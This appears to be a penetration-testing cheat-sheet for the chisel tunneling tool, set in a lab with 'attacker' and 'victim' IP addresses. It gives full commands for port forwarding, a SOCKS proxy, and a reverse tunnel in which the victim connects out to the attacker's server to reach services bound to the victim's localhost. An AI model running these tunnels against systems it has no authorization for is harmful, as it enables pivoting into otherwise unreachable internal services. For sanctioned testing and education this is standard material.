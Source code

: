 Tool for proxying ports, socks, etc. [https://github.com/jpillora/chisel](https://github.com/jpillora/chisel).

# Lab descr:

* Attacker - 192.168.1.1. Have 127.0.0.1:9080 port open.
* Victim - 192.168.1.2. Have 127.0.0.1:8080 port open.

# Just Proxy

Server on victim, client on attacker.

## port2port

Port on attacker forwards to port on victim

```
chisel server --host [LOCAL_IP] --port [SERVER_PORT] --auth test:test
chisel client --auth test:test [SERVER_IP]:[SERVER_PORT] 127.0.0.1:[LOCAL_PROXY_PORT]:127.0.0.1:[TARGET_PORT]
```

```
### victim
chisel server --host 192.168.1.2 --port 10777 --auth test:test

### attacker
chisel client --auth test:test 192.168.1.2:10777 127.0.0.1:18080:127.0.0.1:8080

### Direct connect from attacker, no socks proxy needed
curl http://127.0.0.1:18080
```

## port2any_local

```
### victim
chisel server --host 192.168.1.2 --port 10777 --auth test:test --socks5

### attacker
chisel client --auth test:test 192.168.1.2:10777 127.0.0.1:18080:socks

### Request from attacker to service on victim localhost
curl --proxy socks5://127.0.0.1:18080 http://127.0.0.1:[ANY]
curl --proxy socks5://127.0.0.1:18080 http://127.0.0.1:9080
```

# Reverse

A bit insecure. If you run server on your machine, anybody can connect to it and proxy to your host/localhost.

```
### attacker
chisel server --host 192.168.1.1 --port 10777 --auth test:test --socks5 --reverse

### victim
chisel client --auth test:test 192.168.1.1:10777 R:18080:socks

### Request from attacker to service on victim localhost
curl --proxy socks5://127.0.0.1:18080 http://127.0.0.1:[ANY]
curl --proxy socks5://127.0.0.1:18080 http://127.0.0.1:8080
```

# Setting up auth

You can use --auth param, but it's kinda insecure. Use ENV instead. According to spec:

```
--auth, ... If unset, it will use the environment variable AUTH.
```

So, just do:

```
### CMD
set AUTH=test:test
chisel client 192.168.1.1:10777 R:18080:socks
```
